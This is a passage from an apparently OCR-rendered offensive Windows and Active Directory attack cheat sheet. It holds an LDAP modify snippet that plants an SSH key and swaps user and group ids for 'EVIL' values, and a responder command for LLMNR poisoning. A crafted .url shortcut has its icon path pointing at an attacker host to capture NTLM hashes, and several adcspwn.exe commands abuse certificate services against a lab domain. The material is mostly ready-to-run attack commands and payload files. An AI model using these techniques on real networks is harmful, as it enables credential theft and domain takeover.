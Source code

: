 add: sshPublicKey

sshPublicKey: content of id_rsa.pub

\-

replace: EVIL GROUP ID

uidNumber: CURRENT USER ID

\-

replace: EVIL USER ID

gidNumber: CURRENT GROUP ID

<a name="llmnr-poisoning"></a>
# LLMNR Poisoning

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Abuse Service

Methods:

1.responder -I eth1 -v

2.create Book.url

\[InternetShortcut\]

URL=[[https://facebook.com]{.ul}](https://facebook.com)

IconIndex=0

IconFile=\\\\attacker_ip\\not_found.ico

<a name="abusing-certificate-services"></a>
# Abusing Certificate Services

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Abuse Service

Methods:

adcspwn.exe \--adcs \<cs server\> \--port \[local port\] \--remote
\[computer\]

adcspwn.exe \--adcs cs.pwnlab.local

adcspwn.exe \--adcs cs.pwnlab.local \--remote dc.pwnlab.local \--port
9001
